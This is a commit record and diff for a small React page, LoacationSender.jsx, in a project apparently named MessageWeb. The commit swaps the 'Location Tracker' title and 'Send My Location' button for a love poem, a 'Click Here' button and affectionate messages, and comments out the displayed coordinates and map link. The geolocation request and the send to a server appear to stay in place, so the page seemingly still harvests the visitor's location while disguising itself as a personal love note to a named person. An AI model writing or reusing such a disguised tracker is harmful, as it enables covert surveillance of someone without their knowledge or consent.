

Before and after one commit to PrathamSingh1/MessageWeb, a React app in the folder Frontend/: page / in a window 1280 px wide. Shown: the top 300 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
frontend update

```diff
--- a/Frontend/src/LoacationSender.jsx
+++ b/Frontend/src/LoacationSender.jsx
@@ -20,10 +20,10 @@ const LocationSender = () => {
 
       const data = await res.json();
       console.log("Server response:", data);
-      setStatus("✅ Location sent successfully!");
+      setStatus("I Love You Bauua♥");
     } catch (err) {
       console.error(err);
-      setStatus("❌ Failed to send location");
+      setStatus("You did something wrong⚠");
     }
   };
 
@@ -33,7 +33,7 @@ const LocationSender = () => {
       return;
     }
 
-    setStatus("📍 Getting location...");
+    setStatus("📍 Getting Started Beautiful");
 
     navigator.geolocation.getCurrentPosition(
         (position) => {
@@ -59,7 +59,10 @@ const LocationSender = () => {
 
   return (
     <div style={{ textAlign: "center", marginTop: "3rem" }}>
-      <h1>📡 Location Tracker</h1>
+      <h1>Tere bina sab adhoora lagta hai,
+      Tere bina har pal zara udaas lagta hai,
+      Tu hai mera Baccha, tu hi meri Annu,
+      Tu paas ho toh har din khaas lagta hai. 💞</h1>
       <button
         onClick={handleSendLocation}
         style={{
@@ -72,7 +75,7 @@ const LocationSender = () => {
           fontSize: "1rem",
         }}
       >
-        Send My Location
+        Click Here 🥰
       </button>
 
       <p style={{ marginTop: "1rem" }}>{status}</p>
@@ -80,18 +83,21 @@ const LocationSender = () => {
       {coords && (
         <div style={{ marginTop: "1rem" }}>
           <p>
-            <strong>Latitude:</strong> {coords.latitude}
+            {/* <strong>Latitude:</strong> {coords.latitude} */}
+            {coords.latitude && (
+              <p>Annu, when I call you Baccha or Bauua, it's not just a name — it's a feeling. A feeling that you're mine, and I'm yours, forever. 💫</p>
+            )}
           </p>
           <p>
-            <strong>Longitude:</strong> {coords.longitude}
+            {/* <strong>Longitude:</strong> {coords.longitude} */}
           </p>
-          <a
+          {/* <a
             href={`https://www.google.com/maps?q=${coords.latitude},${coords.longitude}`}
             target="_blank"
             rel="noreferrer"
           >
             🌍 View on Google Maps
-          </a>
+          </a> */}
         </div>
       )}
     </div>
```
